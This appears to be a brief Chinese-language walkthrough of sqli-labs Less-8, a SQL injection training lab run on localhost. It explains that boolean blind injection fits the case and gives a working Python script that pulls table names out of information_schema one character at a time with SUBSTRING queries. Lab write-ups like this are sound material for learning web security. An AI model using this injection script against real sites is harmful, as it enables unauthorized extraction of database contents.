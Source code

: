 ![](img/734bccad28a6e6deb91df29eb3ade7a2.png)

单引号闭合，无回显位，无报错信息，考虑使用布尔盲注，用substring逐个字符测试名字。

```
import requests
from string import Template

url2 = "http://localhost:8888/Less-8/?id=1' and substring((select group_concat(table_name) from information_schema.tables where table_schema = database()),${s1},1) = '${s2}' --+"

length = 0

#for i in range(0,20):
#    r = requests.get(Template(url1).substitute(s1=i))
#    if "You are in" in r.text:
#        length =  i

dic = 'abcdefghijklmnopqrstuvwxyz1234567890_,'
name = ""

for i in range(1,50):
    for j in range(0,len(dic)):
        url = Template(url2).substitute(s1=i,s2=dic[j])
        r = requests.get(url)
        if "You are in" in r.text:
            name += dic[j]

print(name)
```

 脚本运行结果

![](img/6609e0b92f24200ddfdb98eb7e26d36d.png)
